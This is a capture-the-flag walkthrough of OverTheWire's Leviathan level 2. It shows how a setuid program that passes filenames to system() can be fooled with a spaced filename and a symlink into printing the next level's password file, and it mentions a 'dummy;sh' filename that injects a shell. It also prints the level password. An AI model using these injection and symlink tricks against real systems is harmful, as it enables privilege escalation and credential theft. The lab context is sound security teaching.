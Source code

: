 __Leviathan :: Level 2__
================


_John Hammond_ | _Tuesday, November 3rd, 2015_ 


> There is no information for this level, intentionally.


----------


Start by [`ssh`][ssh]ing into the level. Supply the password you retrieved in the previous level. 

```
ssh leviathan2@leviathan.labs.overthewire.org
```

If you run the [`ls`][ls] command, you'll see there is just one file `printfile`. If we try and run the program, it tells use we need a filename argument. We can assume this program acts just like [`cat`][cat]: all it does is display the contents of a file onto the screen.

Our goal remains to get the password for the next level. So what happens if we give that as the argument?

```
leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Uh, okay, error message. That doesn't help. It seems like we have to fool the program into actually displaying that file. We can probably do this with a [symbolic link] or something, but I guess we'll see as we explore more.

Let's get into a directory where we have write permission and can actually do things (the `/tmp`).

Now we can try to see what the program actually does with the same [`ltrace`][ltrace] tool.

```
leviathan2@melinda:~$ mkdir /tmp/playground
leviathan2@melinda:~$ cd /tmp/playground
leviathan2@melinda:/tmp/playground$ ltrace ~/printfile /etc/leviathan_pass/leviathan3 
__libc_start_main(0x804852d, 2, 0xffffd754, 0x8048600 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)      = -1
puts("You cant have that file..."You cant have that file...
)               = 27
+++ exited (status 1) +++
```

It looks like it uses the [C] [`access`][access] function to test if the user actually has access to the file. [`access`][access] actually uses the [real user ID] rather than the [effective user ID] so it will actually only have privileges of our current user, `leviathan2`.

So that is what happens if it _fails_, and we actually can't see the file. 

What about if we _succeed_, and can actually see the file? Check out the [`ltrace`][ltrace] output.

```
leviathan2@melinda:/tmp/playground$ echo "This should work!" > dummy
leviathan2@melinda:/tmp/playground$ ~/printfile dummy
This should work!
leviathan2@melinda:/tmp/playground$ ltrace ~/printfile dummy
__libc_start_main(0x804852d, 2, 0xffffd754, 0x8048600 <unfinished ...>
access("dummy", 4)                               = 0
snprintf("/bin/cat dummy", 511, "/bin/cat %s", "dummy") = 14
system("/bin/cat dummy"This should work!
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++
```

Oh hey! Okay! So once [`access`][access] actually succeeds and we continue on in the program, it just throws the file at a [`system`][system] call, to execute the command "/bin/cat <the_filename>" (it just runs the [`cat`][cat] command).

Let's think about this. If the filename just gets passed into a string and execute like a console command, what's to stop us from actually having a space in our filename, so [`cat`][cat] thinks it is a second file and then displays it?

So we would pass in a file with the filename something like, "dummy solution.txt". We would have to create one file "dummy solution.txt" just so the [`access`][function] would have something to check and return successful with. We would have one file another, 'dummy', which doesn't particularly matter (it actually doesn't even have to exist) but something should still be in the filename before the space. [`cat`][cat] should display this first.

Then the _real_ magic comes from another file, which would be the second half of the original filename: "solution.txt". _This_ is where we actually create a [symbolic link] for the next level's password file.

Since the program's [effective user id] is the one for the next level, whatever it executes (in this case [`cat`][cat]) will be run as that level's user (so we can see their password!)

Here's how it all breaks down.

```
leviathan2@melinda:/tmp/playground$ touch "dummy solution.txt"
leviathan2@melinda:/tmp/playground$ ln -s /etc/leviathan_pass/leviathan3 solution.txt
leviathan2@melinda:/tmp/playground$ ls
dummy  dummy solution.txt  solution.txt
leviathan2@melinda:/tmp/playgroun d$ ~/printfile "dummy solution.txt" 
This should work!
Ahdiemoo1j
```

_And we got it!_

__The password for leviathan3 is `Ahdiemoo1j`.__

(Note: you could just as easily do this by creating a file that essentially has a command inside the filename, like "dummy;sh". This would throw you at a shell with level3's privileges and you could then read the password file.)

[netcat]: https://en.wikipedia.org/wiki/Netcat
[Wikipedia]: https://www.wikipedia.org/
[Linux]: https://www.linux.com/
[man page]: https://en.wikipedia.org/wiki/Man_page
[PuTTY]: http://www.putty.org/
[ssh]: https://en.wikipedia.org/wiki/Secure_Shell
[Windows]: http://www.microsoft.com/en-us/windows
[virtual machine]: https://en.wikipedia.org/wiki/Virtual_machine
[operating system]:https://en.wikipedia.org/wiki/Operating_system
[OS]: https://en.wikipedia.org/wiki/Operating_system
[VMWare]: http://www.vmware.com/
[VirtualBox]: https://www.virtualbox.org/
[hostname]: https://en.wikipedia.org/wiki/Hostname
[port number]: https://en.wikipedia.org/wiki/Port_%28computer_networking%29
[distribution]:https://en.wikipedia.org/wiki/Linux_distribution
[Ubuntu]: http://www.ubuntu.com/
[ISO]: https://en.wikipedia.org/wiki/ISO_image
[standard streams]: https://en.wikipedia.org/wiki/Standard_streams
[read]: http://ss64.com/bash/read.html
[variable]: https://en.wikipedia.org/wiki/Variable_%28computer_science%29
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[permissions]: https://en.wikipedia.org/wiki/File_system_permissions
[redirection]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[tmp]: http://www.tldp.org/LDP/Linux-Filesystem-Hierarchy/html/tmp.html
[curl]: http://curl.haxx.se/
[cl1p.net]: https://cl1p.net/
[request]: http://www.w3.org/Protocols/rfc2616/rfc2616-sec5.html
[POST request]: https://en.wikipedia.org/wiki/POST_%28HTTP%29
[Python]: http://python.org/
[interpreter]: https://en.wikipedia.org/wiki/List_of_command-line_interpreters
[requests]: http://docs.python-requests.org/en/latest/
[urllib]: https://docs.python.org/2/library/urllib.html
[file handling with Python]: https://docs.python.org/2/tutorial/inputoutput.html#reading-and-writing-files
[bash]: https://www.gnu.org/software/bash/
[Assembly]: https://en.wikipedia.org/wiki/Assembly_language
[the stack]:  https://en.wikipedia.org/wiki/Stack_%28abstract_data_type%29
[register]: http://www.tutorialspoint.com/assembly_programming/assembly_registers.htm
[hex]: https://en.wikipedia.org/wiki/Hexadecimal
[archive file]: https://en.wikipedia.org/wiki/Archive_file
[zip file]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[gigabytes]: https://en.wikipedia.org/wiki/Gigabyte
[GB]: https://en.wikipedia.org/wiki/Gigabyte
[GUI]: https://en.wikipedia.org/wiki/Graphical_user_interface
[Wireshark]: https://www.wireshark.org/
[FTP]: https://en.wikipedia.org/wiki/File_Transfer_Protocol
[client and server]: https://simple.wikipedia.org/wiki/Client-server
[RETR]: http://cr.yp.to/ftp/retr.html
[FTP server]: https://help.ubuntu.com/lts/serverguide/ftp-server.html
[SFTP]: https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol
[SSL]: https://en.wikipedia.org/wiki/Transport_Layer_Security
[encryption]: https://en.wikipedia.org/wiki/Encryption
[HTML]: https://en.wikipedia.org/wiki/HTML
[Flask]: http://flask.pocoo.org/
[SQL]: https://en.wikipedia.org/wiki/SQL
[and]: https://en.wikipedia.org/wiki/Logical_conjunction
[Cyberstakes]: https://cyberstakesonline.com/
[cat]: https://en.wikipedia.org/wiki/Cat_%28Unix%29
[symbolic link]: https://en.wikipedia.org/wiki/Symbolic_link
[ln]: https://en.wikipedia.org/wiki/Ln_%28Unix%29
[absolute path]: https://en.wikipedia.org/wiki/Path_%28computing%29
[CTF]: https://en.wikipedia.org/wiki/Capture_the_flag#Computer_security
[Cyberstakes]: https://cyberstakesonline.com/
[OverTheWire]: http://overthewire.org/
[Leviathan]: http://overthewire.org/wargames/leviathan/
[ls]: https://en.wikipedia.org/wiki/Ls
[grep]: https://en.wikipedia.org/wiki/Grep
[strings]: http://linux.die.net/man/1/strings
[ltrace]: http://linux.die.net/man/1/ltrace
[C]: https://en.wikipedia.org/wiki/C_%28programming_language%29
[strcmp]: http://linux.die.net/man/3/strcmp
[access]: http://pubs.opengroup.org/onlinepubs/009695399/functions/access.html
[system]: http://linux.die.net/man/3/system
[real user ID]: https://en.wikipedia.org/wiki/User_identifier
[effective user ID]: https://en.wikipedia.org/wiki/User_identifier